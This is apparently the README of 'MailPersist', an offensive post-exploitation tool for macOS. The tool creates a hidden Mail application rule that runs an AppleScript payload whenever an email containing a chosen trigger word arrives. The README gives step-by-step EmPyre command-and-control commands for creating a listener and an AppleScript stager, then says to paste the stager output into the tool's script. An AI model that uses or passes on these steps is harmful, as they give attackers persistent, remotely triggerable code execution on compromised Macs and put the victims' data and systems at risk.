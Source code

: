 # MailPersist - Post-exploitation script for MacOS persistance 

## ABOUT:
This script creates a new rule in the MacOS Mail application to automatically trigger an appleScript payload when an email is recieved using a trigger word.

## INSTALL:

All dependancies are met on a default installation of MacOS.  With that said, you will likely want to use EmPyre
https://github.com/adaptivethreat/EmPyre
to create your appleScript payload. 


## USAGE:
Creating an appleScript payload with Empyre:
```
(EmPyre) > listeners
(EmPyre: listeners) > set Name mylistener
(EmPyre: listeners) > execute
(EmPyre: listeners) > usestager applescript mylistener
(EmPyre: stager/applescript) > execute
```
Open mail.py and paste the output in the specified area.  Modify the trigger word as you see fit.  
